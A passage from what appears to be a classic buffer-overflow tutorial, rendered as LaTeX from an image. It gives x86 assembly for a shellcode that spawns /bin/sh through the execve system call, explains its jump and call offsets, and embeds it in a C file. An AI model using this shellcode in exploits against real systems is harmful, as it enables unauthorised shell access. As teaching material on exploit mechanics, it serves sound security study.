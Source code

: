 \documentclass[12pt]{article}
\begin{document}
Calculating the offsets from jmp to call, from call to popl, from the string address to the array, and from the 
string address to the null long word, we now have: 


\begin{verbatim}
jmp    0x26                     # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2b                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
\end{verbatim}

Looks good. To make sure it works correctly we must compile it and run it. But  there is a problem. Our code 
modifies itself  [where?],  but most operating system mark code pages read only. To get around this restriction 
we must place the code we wish to execute in the stack or data segment, and transfer control to it. To do so we 
will place our code in a global array in the data segment. We need first a hex representation of the binary code. 
Lets compile it first, and then use gdb to obtain it.

\begin{lstlisting}[caption=shellcodeasm.c]
void main() 
{
__asm__
("
jmp    0x2a                     # 3 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes        
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2f                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
");
}
\end{lstlisting}
\end{document}

